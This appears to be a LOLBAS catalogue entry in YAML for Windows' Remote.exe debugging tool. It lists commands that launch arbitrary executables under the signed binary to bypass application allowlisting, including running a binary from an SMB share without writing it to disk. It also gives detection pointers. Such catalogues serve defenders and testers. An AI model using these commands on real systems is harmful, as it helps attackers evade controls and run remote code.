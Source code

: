 ```yaml
---
Name: Remote.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-06-01
Commands:
  - Command: Remote.exe /s {PATH:.exe} anythinghere
    Description: Spawns specified executable as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
  - Command: Remote.exe /s {PATH:.exe} anythinghere
    Description: Spawns specified executable as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
  - Command: Remote.exe /s {PATH_SMB:.exe} anythinghere
    Description: Run a remote file
    Usecase: Executing a remote binary without saving file to disk
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
      - Execute: Remote
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\remote.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\remote.exe
Detection:
  - IOC: remote.exe process spawns
  - Sigma: https://github.com/SigmaHQ/sigma/blob/197615345b927682ab7ad7fa3c5f5bb2ed911eed/rules/windows/process_creation/proc_creation_win_lolbin_remote.yml
Resources:
  - Link: https://blog.thecybersecuritytutor.com/Exeuction-AWL-Bypass-Remote-exe-LOLBin/
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

